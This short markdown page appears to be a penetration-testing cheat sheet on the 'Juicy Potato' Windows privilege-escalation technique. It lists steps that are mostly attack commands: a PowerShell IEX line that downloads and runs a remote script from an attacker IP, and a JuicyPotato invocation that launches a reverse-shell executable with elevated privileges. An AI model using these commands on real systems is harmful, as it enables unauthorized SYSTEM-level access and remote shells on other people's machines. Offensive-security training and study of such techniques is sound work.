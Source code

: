 ```yaml
---
description: Potato is yummy
---
```


# Juicy Potato

1. Enumerate either the`SeImpersonate` or `SeAssignPrimaryToken` privileges
2. Begin by uploading the [Juicy Potato binary](https://github.com/ohpe/juicy-potato) to the system.
3. Additionally, run the following command to enumerate valid CLSID's for use with JuicyPotato `IEX (New-Object Net.WebClient).DownloadString('http://[IP]/GetCLSID.ps1')`
4. After enumerating a valid CLSID we can run the following command: `.\Juicy.exe -t t -p C:\Windows\Tasks\reverse.exe -l 5837 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}`

